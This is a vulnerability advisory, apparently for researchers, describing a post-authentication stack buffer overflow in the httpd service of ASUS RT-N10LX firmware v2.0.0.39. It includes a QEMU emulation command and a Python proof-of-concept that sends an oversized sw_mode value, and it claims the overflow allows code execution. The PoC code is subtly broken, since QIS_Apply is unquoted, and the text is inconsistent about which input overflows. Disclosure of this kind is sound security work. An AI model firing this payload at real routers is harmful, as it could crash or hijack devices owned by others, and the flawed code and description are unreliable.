 ## buffer overflow in sw_mode of update_variables



**Affected Product**: ASUS RT-N10LX

**Affected Firmware Versions**: v.2.0.0.39

**Official Firmware Resources** :[ASUS RT-N10LX firmware v.2.0.0.39 v.2.0.0.39](https://cn.driverscollection.com/_5246336426127ef295a27bea27a/下载-ASUS-RT-N10LX-firmware-v.2.0.0.39-。。。的驱动-Windows-10-(32-64-bit)-8.1-(32-64-bit)-8-(32-64-bit)-7-(32-64-bit)-Vista-(32-64-bit)-XP-(32-64-bit)-Server-2003-(32-64-bit)-Mac-OS-Server-2000-Others-免费)

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `update_variables` endpoint. The vulnerability occurs when processing POST requests containing the `sw_mode` parameter. Specifically:

1. The `sub_412CCC` function handles requests to `get_wan_status.asp`.
2. User-controlled `update_variables` input is copied to buffer `v22`using `sprintf` without proper bounds checking.
3. The `v22` buffer is only **8  bytes** in size.

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.





![image-20250627103015918](../res/image-20250627103015918-17509914178431.png)



![image-20250627103132745](../res/image-20250627103132745-17509914944372.png)



### exploitation process

**1、** After initialization in the main function, it enters the `sub_4052BC` function to handle HTTP requests:

![image-20250625170755611](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625170755611.png)



**2、**Traverses the routing table - all entries will execute the `do_ej` function to process responses:



![image-20250625171240555](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171240555-17508427619493.png)



![image-20250625171311589](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171311589-17508427928874.png)

**3、**`do_ej` calls `sub_40E99C` → `sub_40E758` → traverses `ej_handlers`:

![image-20250625171717996](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171717996-17508430394475.png)

4、When matching the `update_variables` function, it enters `sub_412CCC` and triggers the vulnerability:



![image-20250625171803600](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171803600-17508430851546.png)

#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-mips-static   -g 1234  ./bin/httpd`



------

### **Proof of Concept (PoC)**

```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/get_wan_status.asp/update_variables"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    
    "sw_mode": payload,
    "action_mode":QIS_Apply,
    "current_page":"/qis/QIS_wireless.htm"
    
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")
```



### Exploitation Results


The PoC demonstrates successful overflow of the `v22` buffer on the stack. , the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.

